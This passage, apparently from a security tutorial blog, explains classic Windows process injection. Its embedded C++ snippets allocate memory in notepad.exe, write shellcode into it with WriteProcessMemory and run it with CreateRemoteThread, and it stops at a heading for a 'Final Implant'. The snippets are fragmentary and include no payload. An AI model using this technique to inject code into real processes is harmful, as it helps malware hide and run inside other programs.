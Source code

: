 </iframe>


- The difference between the VirtualAllocEx and VirtualAlloc is that VirtualAlloc allocates memory within the address space of the `calling process`, while VirtualAllocEx lets you `specify a target process` to allocate memory.


### [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)

- We use this API to write into the memory in a specified address. We will utilize this to write our shellcode into the memory region we reserved in the target process.


<iframe
  src="https://carbon.now.sh/embed?bg=rgba%280%2C0%2C202%2C0%29&t=panda-syntax&wt=bw&l=text%2Fx-c%2B%2Bsrc&width=768.65625&ds=false&dsyoff=20px&dsblur=68px&wc=true&wa=false&pv=0px&ph=0px&ln=false&fl=1&fm=Fira+Code&fs=14px&lh=143%25&si=false&es=2x&wm=false&code=%2520WriteProcessMemory%28hProc%252C%2520pRemoteCode%252C%2520%28PVOID%29payload%252C%2520%28SIZE_T%29payload_len%252C%2520%28SIZE_T%2520*%29NULL%29%253B"
  style="width: 773px; height: 110px; border:0; transform: scale(1); overflow:hidden;"
  sandbox="allow-scripts allow-same-origin">

</iframe>

### [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)

- This API is used to create a thread that runs in the address space of a target process. Our target being notepad.exe, this API will help us run our shellcode in that context
- We specify `hProc`, a handle to the process we are injecting to.
- We then use `WaitForSingleObject` to specify a timeout for the process.

<iframe
  src="https://carbon.now.sh/embed?bg=rgba%280%2C0%2C202%2C0%29&t=panda-syntax&wt=bw&l=text%2Fx-c%2B%2Bsrc&width=768.65625&ds=false&dsyoff=20px&dsblur=68px&wc=true&wa=false&pv=0px&ph=0px&ln=false&fl=1&fm=Fira+Code&fs=14px&lh=143%25&si=false&es=2x&wm=false&code=LPVOID%2520pRemoteCode%2520%253D%2520NULL%253B%250AhThread%2520%253D%2520CreateRemoteThread%28hProc%252C%2520NULL%252C%25200%252C%2520pRemoteCode%252C%2520NULL%252C%25200%252C%2520NULL%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520if%2520%28hThread%2520%21%253D%2520NULL%29%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520WaitForSingleObject%28hThread%252C%2520500%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520CloseHandle%28hThread%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520return%25200%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%257D%250A%2520%2520%2520%2520%2520%2520%2520%2520return%2520-1%253B"
  style="width: 773px; height: 210px; border:0; transform: scale(1); overflow:hidden;"
  sandbox="allow-scripts allow-same-origin">

</iframe>


## 3. Final Implant
